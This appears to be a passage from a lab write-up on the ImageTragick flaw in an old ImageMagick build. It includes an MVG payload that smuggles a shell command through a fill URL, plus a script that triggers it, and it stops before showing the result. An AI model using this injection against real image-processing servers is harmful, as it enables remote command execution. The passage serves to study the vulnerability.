 


# Working examples



## Shell commands


Using specifically compiled version `6.9.2-10` of ImageMagick, pre the exposure of the *ImageTragick* vulnerabilities in mid 2016.

    root@kali:~/Downloads/ImageMagick-6.9.2-10# ./utilities/convert --version
    Version: ImageMagick 6.9.2-10 Q16 x86_64 2019-09-28 http://www.imagemagick.org
    Copyright: Copyright (C) 1999-2016 ImageMagick Studio LLC
    License: http://www.imagemagick.org/script/license.php
    Features: Cipher DPC OpenMP 
    Delegates (built-in): x 


Using same payload as used earlier in this write up. Take note of the embedded `ls -la` shell command appended with an `|` (the logical OR pipe operator).

**exploit.mvg**:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context

Note that an `mvg` file is used for Magick Vector Graphics.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.

The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

Given this is a full blown DSL (domain specific language), the above exploit takes advantage of the `fill` command it supports, giving it an `https` based URL to work with.

    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'


**exploit.sh**:

    #! /usr/bin/env bash
    DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" && pwd )"
    IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify
    CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    $CONVERT exploit.mvg exploit.png 

Attempting to `convert` (one of the most feature laden ImageMagick binaries) using the `6.9.2-10` build:
